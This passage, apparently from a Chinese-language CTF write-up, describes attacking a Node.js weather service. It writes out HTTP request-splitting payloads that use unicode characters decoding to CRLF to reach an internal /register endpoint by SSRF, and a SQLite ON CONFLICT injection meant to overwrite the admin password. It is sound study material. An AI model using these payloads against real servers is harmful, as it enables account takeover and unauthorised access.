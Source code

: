      * 因此，city参数需要为以下内容

       ```tex
        HTTP/1.1\r\nHost:127.0.0.1\r\n\r\nPOST /register HTTP/1.1\r\nHost:127.0.0.1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 29\r\n\r\nusername=1001&password=123456\r\n\r\nGET /
       ```

     * 而nodejs v8版本存在拆分攻击，通过utf-8缺损编码可以使`\u010D`变成`\r`、`\u010A`变成`\n`、`\u0120`变成空格

     * 因此city为

       ```tex
       \u0120HTTP/1.1\u010D\u010AHost:127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:127.0.0.1\u010D\u010AContent-Type:application/x-www-form-urlencoded\u010D\u010AContent-Length:29\u010D\u010A\u010D\u010Ausername=1001&password=123456\u010D\u010A\u010D\u010AGET\u0120/
       ```

     * 最终整体语句为

       ```http
       GET /data/2.5/weather?q=ĠHTTP/1.1čĊHost:127.0.0.1čĊčĊPOSTĠ/registerĠHTTP/1.1č
       ĊHost:127.0.0.1čĊContent-Type:application/x-www-form-urlencodedčĊContent-Length:
       29čĊčĊusername=1001&password=123456čĊčĊGETĠ/,CN&units=metric&appid=10a62430af617
       a949055a46fa6dec32f HTTP/1.1\r\nHost: 127.0.0.1\r\nConnection: close\r\n\r\n' ]
       ```

     * 经过实验，该方法顺利通过SSRF访问到`/register`的POST接口，但是因为这样构造出来的实际上是三个请求，其中第一个请求会返回404，HttpHelper整体也就会立即返回"Could not find ${city} or ${country}"，因此基于时间的盲注无法实现了，之前本地能跑出密码来的脚本也废了

7. 重新寻找利用SQL注入的方法

   * 无法使用基于时间的盲注的话，那么只能想办法改admin的密码了

   * 因为SQLite的 UNION 运算符用于合并两个或多个 SELECT 语句的结果，不返回任何重复的行。本题中被注入的语句是INSERT，因此无法使用联合注入

   * 由于username列存在唯一约束，所以可以利用INSERT OR REPLACE语法，修改admin账户密码

   * 构造sql语句

     ```sqlite
     INSERT INTO users
     (username,password)
     VALUES
     ('admin','23333')on CONFLICT(username) do UPDATE SET password='123' -- 
     ```

   * 构造city参数

     ```shell
     \u0120HTTP/1.1\u010D\u010AHost:127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:127.0.0.1\u010D\u010AContent-Type:application/x-www-form-urlencoded\u010D\u010AContent-Length:85\u010D\u010A\u010D\u010Ausername=admin&password=23333')on CONFLICT(username) do UPDATE SET password='123' -- \u010D\u010A\u010D\u010AGET\u0120/
     ```

   * 发起攻击，发现报错了，req.socket.remoteAddress是undefined，应该是第一个请求404导致的

8. 重新通过构造endpoint进行SSRF
